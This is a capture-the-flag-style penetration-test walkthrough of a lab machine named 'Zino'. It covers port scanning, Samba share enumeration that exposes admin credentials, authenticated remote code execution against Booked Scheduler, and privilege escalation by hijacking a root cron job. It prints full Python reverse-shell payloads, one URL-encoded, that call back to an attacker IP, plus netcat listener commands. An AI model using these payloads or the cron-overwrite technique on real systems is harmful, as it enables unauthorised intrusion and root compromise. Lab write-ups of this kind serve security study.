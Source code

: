 ```yaml
---
description: 11-10-2022
---
```


# "Zino" (Intermediate)

<figure><img src="../../../.gitbook/assets/image (53) (1).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b26675501b18f5e99fdb2cd4e3957a44 (RSA)
|   256 912d26f1baafd18b698f814a32af9c77 (ECDSA)
|_  256 ec6fdf8bce19138a52573e72a3146f40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions: 
|_    Host '192.168.49.81' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=11/10%Time=636D9BA7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOption
SF:s,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|   NetBIOS computer name: ZINO\x00
|   Domain name: \x00
|   FQDN: zino
|_  System time: 2022-11-10T19:47:50-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2022-11-11T00:47:51
|_  start_date: N/A
```

Enumerated UDP ports:

```
All 1000 scanned ports on 192.168.81.64 are in ignored states
```

Notes:

* 445/Samba enumeration -- Enum4Linux
* 8003/HTTP <mark style="color:yellow;">Apache 2.4.38 -- "Booked Scheduler" Web Application</mark>

## Enumeration

### Port 8003 - HTTP (Apache 2.4.38)-&#x20;

* I was able to create a new login and authenticate with those credentials
* Searchsploit revealed 3 authenticated RCE vulnerabilities that may come in handy later

```
searchsploit booked

Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directo | php/webapps/48428.txt
```

* I paid close attention to <mark style="color:yellow;">50594.py</mark>
  * Reason being: Python script -- familiar territory

### Port 445 - Samba&#x20;

Enum4Linux:

```
Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

[+] Attempting to map shares on 192.168.81.64                                    
                                                                                 
//192.168.81.64/zino    Mapping: OK Listing: OK Writing: N/A                     
//192.168.81.64/print$  Mapping: DENIED Listing: N/A Writing: N/A
```

We can access the <mark style="color:yellow;">zino</mark> share with <mark style="color:yellow;">smbclient</mark>:

<figure><img src="../../../.gitbook/assets/image (54) (1).png" alt=""><figcaption></figcaption></figure>

* From here, I downloaded all of the files for further enumeration

<mark style="color:yellow;">Misc.log</mark>:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">admin</mark>:<mark style="color:yellow;">adminadmin</mark>

* I then logged into the web server with these credentials and we were now admin!
* Now that we have authentication, let's go back to the <mark style="color:yellow;">50594.py exploit</mark>

## Exploitation

### 50594.py -- <mark style="color:yellow;">Booked Scheduler 2.7.5 - Remote Command Execution</mark>&#x20;

```
python3 50594.py http://192.168.81.64:8003 admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://192.168.81.64:8003/booked/Web/custom-favicon.php?cmd=
```

* A web shell was created!

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

* My next goal was to establish further persistence with another reverse shell
* However, since we are still in a web shell, we need to URL encode the reverse shell

Cyber Chef:

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

URL-Encoded Python Reverse Shell:

{% code overflow="wrap" %}
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.49.81%22%2C3306))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27%0A
```
{% endcode %}

* Start a nc listener on Kali -- <mark style="color:red;">`nc -lnvp 3306`</mark>
* Execute the reverse shell within the web shell and you will gain further persistence

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

*   I then stabalized my shell with Python &#x20;

    ```
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```

### Privilege Escalation

* Uploaded <mark style="color:yellow;">linpeas</mark>

### PrivEsc vector

* <mark style="color:yellow;">Vulnerable Cron Job running every three minutes -- It is running with root permissions as well</mark>

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

* I simply removed the file -- <mark style="color:yellow;">`rm -f /var/www/html/booked/cleanup.py`</mark>

Replaced it with the following:

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.81",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /var/www/html/booked/cleanup.py
```

Nc Listener:

```
nc -lnvp 21
```

* Waited three minutes and I was able to get a shell as root!

## Proofs

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
